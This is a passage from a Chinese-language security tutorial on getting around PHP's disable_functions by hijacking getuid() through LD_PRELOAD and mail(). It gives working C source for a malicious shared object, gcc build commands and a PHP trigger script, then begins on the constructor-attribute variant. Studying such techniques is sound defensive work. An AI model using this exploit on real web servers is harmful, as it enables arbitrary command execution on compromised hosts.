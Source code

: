 -   能够上传 `.so` 文件
-   能够控制 `LD_PRELOAD` 环境变量的值，比如 `putenv()` 函数
-   因为新进程启动将加载 `LD_PRELOAD` 中的 `.so` 文件，所以要存在可以控制 PHP 启动外部程序的函数并能执行，比如 `mail()`、`imap_mail()`、`mb_send_mail()` 和 `error_log()` 函数等

下面介绍两种常用的利用方式。

### [](#32-%E5%8A%AB%E6%8C%81%E5%87%BD%E6%95%B0uid)3.2 劫持函数 (uid)

#### [](#321-%E5%8E%9F%E7%90%86)3.2.1 原理

-   编写一个原型为 `uid_t getuid(void);` 的 C 函数，内部执行攻击者指定的代码，并编译成共享对象 `getuid_shadow.so`；
-   运行 PHP 函数 `putenv()`（用来配置系统环境变量），设定环境变量 `LD_PRELOAD` 为 `getuid_shadow.so`，以便后续启动新进程时优先加载该共享对象；
-   运行 PHP 的 `mail()` 函数，`mail()` 内部启动新进程 `/usr/sbin/sendmail`，由于上一步 `LD_PRELOAD` 的作用，`sendmail` 调用的系统函数 `getuid()` 被优先级更好的 `getuid_shadow.so` 中的同名 `getuid()` 所劫持；达到不调用 PHP 的各种命令执行函数（`system`、`exec` 等等）仍可执行系统命令的目的。

#### [](#322-%E5%88%A9%E7%94%A8)3.2.2 利用

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```c<br>#include <stdlib.h><br>#include <stdio.h><br>#include <string.h><br>void payload() {<br>  system("ls > /tmp/leon");<br>}   <br>int getuid() {<br>if (getenv("LD_PRELOAD") == NULL) { return 0; }<br>  unsetenv("LD_PRELOAD");<br>	payload();<br>}<br>``` |

编译成 so 文件：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>gcc -c -fPIC exp.c -o hack && gcc --share hack -o exp.so<br>``` |

编写 test.php：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```php<br><?php<br>putenv("LD_PRELOAD=./exp.so");<br>mail("","","","","");<br>?><br>``` |

但是，在真实环境中，存在两方面问题：

-   一是，某些环境中，`web` 禁止启用 `sendmail`、甚至系统上根本未安装 `sendmail`，也就谈不上劫持 `getuid()`，通常的 `www-data` 权限又不可能去更改 `php.ini` 配置、去安装 `sendmail` 软件；
-   二是，即便目标可以启用 `sendmail`，由于未将主机名（hostname 输出）添加进 `hosts` 中，导致每次运行 `sendmail` 都要耗时半分钟等待域名解析超时返回，`www-data` 也无法将主机名加入 `hosts`。

基于这两种方式，衍生出一种新的利用方式。

### [](#33-%E5%8A%AB%E6%8C%81%E5%90%AF%E5%8A%A8%E8%BF%9B%E7%A8%8B)3.3 劫持启动进程

回到 `LD_PRELOAD` 本身，系统通过它预先加载共享对象，如果能找到一个方式，在加载时就执行代码，而不用考虑劫持某一系统函数，那就完全可以不依赖 `sendmail` 了。

#### [](#331-__attribute__-%E4%BB%8B%E7%BB%8D)3.3.1 \_\_attribute\_\_ 介绍

GCC 有个 C 语言扩展修饰符 `__attribute__((constructor))`，可以让由它修饰的函数在 main() 之前执行，若它出现在共享对象中时，那么一旦共享对象被系统加载，立即将执行 `__attribute__((constructor))` 修饰的函数。
